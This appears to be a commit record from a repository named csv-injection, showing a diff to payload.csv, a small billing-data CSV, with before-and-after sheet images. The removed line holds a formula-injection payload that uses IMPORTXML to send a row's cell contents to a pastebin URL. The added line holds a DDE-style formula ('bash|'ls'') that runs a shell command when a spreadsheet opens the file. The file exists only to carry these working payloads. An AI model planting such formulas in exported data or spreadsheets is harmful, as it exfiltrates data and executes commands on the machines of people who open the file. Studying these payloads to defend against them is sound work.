

Before and after one commit to debshubrac/csv-injection, a CSV file: payload.csv, drawn as a sheet.

Commit message:
Update payload.csv

```diff
--- a/payload.csv
+++ b/payload.csv
@@ -3,2 +3,2 @@ UserId,BillToDate,ProjectName,Description,DurationMinutes
 2,2017-07-25,Important Client,"Bop, dop, and giglip", 240
-2,2017-07-25,Important Client,"=IMPORTXML(CONCAT(""https://pastebin.com/raw/1qVgCRM8?v="", CONCATENATE(A2:E2)), ""//a"")",240
+2,2017-07-25,Important Client,"=2+5+bash|'ls'!A0", 240
```
